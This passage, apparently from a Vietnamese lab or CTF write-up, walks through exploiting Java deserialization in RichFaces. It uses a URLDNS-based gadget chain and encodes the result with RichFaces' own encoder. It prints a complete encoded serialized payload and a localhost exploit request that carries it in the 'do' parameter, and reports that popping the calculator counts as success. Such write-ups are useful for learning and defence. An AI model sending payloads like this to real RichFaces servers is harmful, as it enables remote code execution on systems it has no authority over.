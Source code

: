 Code xây dựng payload của mình như sau. Chủ yếu dựa trên code URLDNS thôi nha. Chi tiết mình đã ghi trong code

![](https://images.viblo.asia/f7fd40bb-417b-41b3-abd3-a3087f3c333b.png)

Cần chú ý là chúng ta muốn xây dựng được payload thì cần thêm 2 class là `BookHolder` và `BookBean` giống với trong source mà chúng ta giải nén ra. Đồng thời cũng phải để 2 class này trong package có tên giống trong file giải nén. Lí do là chúng ta gửi payload lên server. Server thực hiện derseralization nó ra, nếu ta để tên hay package sai thì server sẽ báo lỗi không tìm thấy và chúng ta khai thác không thành công. Một điều nữa, payload chúng ta cần gửi lên ở dạng String, mà chúng ta mới chỉ ghi ra file ở dạng byte thôi. Chúng ta cần sử dụng đúng định dangh encode thì khi server thực hiện decode ra mới thành công được. Chú ý method `org.richfaces.util.Util.decodeObjectData()` sử dụng method `decodeBytesData` để decode. Như vậy để encode ta sẽ sử dụng method `encodeBytesData`

![](https://images.viblo.asia/795c6955-52aa-44a7-a3e1-29fc475c6a7e.png)

và payload của chúng ta sẽ là:

```
eAFb85aBtbiIQTArsSxRr7QkM0fPI7E4wzexgJX91sHDYgkXmRmY3Bi4cvITU9wSk0vyizwZOEsyilKLM!JzUioK7B0YQICnnANICgAxI9Aw2eT8XL2SzLwSA73y0pK0xOTUYj2n!PxsD6CW1KJTWlvWbpV7coeJgdmTgS0JKO6Z4sPA7ePvHu!s7-vr6OdSwiDkA3KPfk5iXrp-cElRZl66tQ8DJ0htSGZJTmohQx0Dc0UByOYSBpbkxJzkghIGjsS8ypIMoNIKALTGQh0_
```

Request trông sẽ như thế này nhé: 

```
http://localhost:8085/wutfaces_1_0_1_SNAPSHOT_war/rfRes/buttonBackgroundImage.png.jsf?v=4.3.2.Final&db=eAFjZGBkZOBm!P-f8f!bV88Y!185f5yBCQBPWAk3&ln=org.richfaces.images&do=eAFb85aBtbiIQTArsSxRr7QkM0fPI7E4wzexgJX91sHDYgkXmRmY3Bi4cvITU9wSk0vyizwZOEsyilKLM!JzUioK7B0YQICnnANICgAxI9Aw2eT8XL2SzLwSA73y0pK0xOTUYj2n!PxsD6CW1KJTWlvWbpV7coeJgdmTgS0JKO6Z4sPA7ePvHu!s7-vr6OdSwiDkA3KPfk5iXrp-cElRZl66tQ8DJ0htSGZJTmohQx0Dc0UByOYSBpbkxJzkghIGjsS8ypIMoNIKALTGQh0_
```

Trigger được calc lên xem như thành công rồi nhé.

![](https://images.viblo.asia/9b1405dc-d7e9-4e2c-b5d2-9e30ae54eeac.png)